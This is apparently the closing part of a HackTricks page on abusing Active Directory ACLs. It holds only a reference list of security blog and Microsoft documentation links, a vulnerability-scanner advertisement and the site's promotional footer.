* Initially, this information was mostly copied from [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
* [https://wald0.com/?p=112](https://wald0.com/?p=112)
* [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [https://adsecurity.org/?p=3658](https://adsecurity.org/?p=3658)
* [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryaccessrule.-ctor?view=netframework-4.7.2#System\_DirectoryServices\_ActiveDirectoryAccessRule\_\_ctor\_System\_Security\_Principal\_IdentityReference\_System\_DirectoryServices\_ActiveDirectoryRights\_System\_Security\_AccessControl\_AccessControlType\_](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryaccessrule.-ctor?view=netframework-4.7.2#System\_DirectoryServices\_ActiveDirectoryAccessRule\_\_ctor\_System\_Security\_Principal\_IdentityReference\_System\_DirectoryServices\_ActiveDirectoryRights\_System\_Security\_AccessControl\_AccessControlType\_)

<figure><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.




<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
